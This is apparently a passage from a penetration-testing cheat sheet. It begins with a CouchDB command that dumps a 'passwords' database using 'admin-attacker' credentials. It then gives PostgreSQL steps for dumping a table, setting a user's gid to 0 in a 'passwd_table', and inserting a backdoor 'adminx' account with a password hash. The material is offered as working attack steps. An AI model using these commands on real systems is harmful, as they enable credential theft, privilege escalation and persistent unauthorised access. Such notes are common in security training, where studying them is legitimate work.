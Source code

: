 ```
curl http://ip:5984/passwords/_all_docs?include_docs=true -u admin-attacker:admin-attacker
```

## Posgresql

#### Connecting to the database

Supply the ip, database name and the username

```
psql -h ip -d db -U username
```

#### Listing the tables

```
\dt
```

#### Retriving records from a specific table

```
select * from tablename;
```

#### Updating fields in a table

Assume the table name is `users` and we want to update the `gid` of the user whose `gid=1001`. In the command below, we change the `gid` to `0`

```
update passwd_table set gid=0 where gid=1001;
```

#### Inserting new records in a table

The below command insert a new username in the table users. The field are chosen according to the database structure.

```
insert into users (username, passwd, gid, homedir) values ('adminx','$6$oV6OZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',66,'/home/adminx');
```
